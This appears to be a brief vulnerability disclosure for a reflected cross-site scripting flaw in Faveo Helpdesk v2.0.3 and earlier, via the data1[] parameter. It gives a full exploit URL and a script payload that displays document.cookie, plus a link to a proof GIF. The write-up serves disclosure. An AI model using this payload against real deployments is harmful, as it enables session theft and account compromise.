Vulnerability: Reflected XSS via data1[]

URL: https://192.168.124.130/get-merge-tickets/0?data1[]=10&data1[]=1'><script>alert(document.cookie)</script>

Payload: '><script>alert(document.cookie)</script>

Action to trigger: None

Note: The merge values need to be valid

Version: ‎Version v2.0.3 and prior

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: data1[]


https://github.com/ladybirdweb/faveo-helpdesk


![](https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_XSS_via_data1%5B%5D.gif)
